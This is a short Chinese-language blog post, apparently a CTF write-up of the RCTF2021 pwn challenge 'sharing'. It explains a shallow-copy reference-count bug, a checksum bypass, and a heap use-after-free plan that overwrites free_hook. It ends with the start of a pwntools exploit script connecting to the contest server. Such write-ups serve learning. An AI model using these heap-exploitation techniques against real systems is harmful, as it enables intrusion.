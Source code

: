 ```yaml
---
layout:     post
title:      RCTF2021
subtitle:   pwn wp
date:       2021-09-13
author:     X1ng
header-img: RCTF2021.jpg
catalog: true
tags:
    - 比赛
    - wp
    - XCTF
---
```


MISC佬鲨疯了，，虽然最后一晚熬夜肝了一题保住了前十，但太菜了最后还是没做出来Pokemon

![](https://tva1.sinaimg.cn/large/008i3skNly1guf3c7sryfj61do0ocdq002.jpg)

比赛时做出来的题目的wp......

### sharing

1. 在实现的对象复制时使用浅拷贝，并且使用了引用计数
2. 在申请的时候如果对象数组中目标位置已经有对象了则会先申请对象再释放原来的对象
3. hint分支中可以将任意地址中的数据减2，但是需要hint为长度16的字符串并且所有字符16进制相加等于0x2f767991，可见字符相加不可能实现。但是可以让所有字符相加等于0x12f767991绕过检查
4. 思路即利用tcache中残留的数据泄露堆地址，某个对象浅拷贝后进入hint分支将引用计数恢复为1，释放对象造成了UAF，构造堆块重叠后修改堆块size以便放入unsorted_bin泄露libc地址，最后改free_hook

exp：

```python
#!/usr/bin/python3

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='sharing'
libc_name='libc.so.6'

libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('124.70.137.88', 30000)



def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
```